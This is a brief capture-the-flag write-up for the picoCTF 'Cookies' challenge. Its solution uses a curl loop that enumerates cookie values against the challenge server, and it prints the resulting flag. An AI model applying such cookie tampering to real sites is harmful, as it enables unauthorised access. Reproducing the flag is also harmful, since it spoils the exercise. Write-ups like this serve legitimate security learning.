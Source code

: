 ## Descripcion
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:6418/](http://mercury.picoctf.net:6418/)

## Pistas
(None)

## Solucion
```bash
┌──(kali㉿kali)-[~]
└─$ for i in {0..20}; do curl -s http://mercury.picoctf.net:6418/check -H "Cookie: name=$i"; done | grep picoCTF 
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_88acab36}</code></p>

```

## Bandera
picoCTF{3v3ry1_l0v3s_c00k135_88acab36}

## Notas

